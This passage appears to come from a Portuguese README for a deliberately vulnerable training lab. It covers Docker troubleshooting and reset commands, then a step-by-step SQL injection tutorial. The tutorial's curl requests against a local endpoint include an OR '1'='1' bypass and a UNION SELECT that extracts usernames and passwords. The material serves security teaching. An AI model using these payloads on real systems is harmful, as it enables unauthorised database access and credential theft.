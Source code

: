 ### **Logs e Debug:**
```bash
# Habilitar logs detalhados
export DEBUG=*
npm run dev

# Verificar saúde dos serviços
curl http://localhost:5001/api/status
curl http://localhost:8080

# Logs do Docker
docker-compose logs --tail=50 backend
```

### **Reset Completo:**
```bash
# Parar todos os serviços
docker-compose down -v

# Remover imagens e cache
docker system prune -af
docker volume prune -f

# Reconstruir tudo
docker-compose build --no-cache
docker-compose up -d

# Aguardar inicialização
sleep 60
curl http://localhost:5001/api/status
```

### **Performance:**
```bash
# Verificar uso de recursos
docker stats

# Limitar recursos (se necessário)
docker-compose up -d --memory="2g" --cpus="2.0"

# Verificar logs de erro de memória
dmesg | grep -i "out of memory"
```

---

## 📚 **RECURSOS EDUCACIONAIS AVANÇADOS**

### **Exemplos Práticos Detalhados:**

#### **SQL Injection Passo a Passo:**
```bash
# 1. Teste básico
curl "http://localhost:5001/api/vulnerable/users/search?username=admin"

# 2. Teste de injeção
curl "http://localhost:5001/api/vulnerable/users/search?username=admin'%20OR%20'1'='1'%20--"

# 3. Union attack
curl "http://localhost:5001/api/vulnerable/users/search?username=admin'%20UNION%20SELECT%20username,password,email,role%20FROM%20users%20--"

# 4. Análise do resultado
```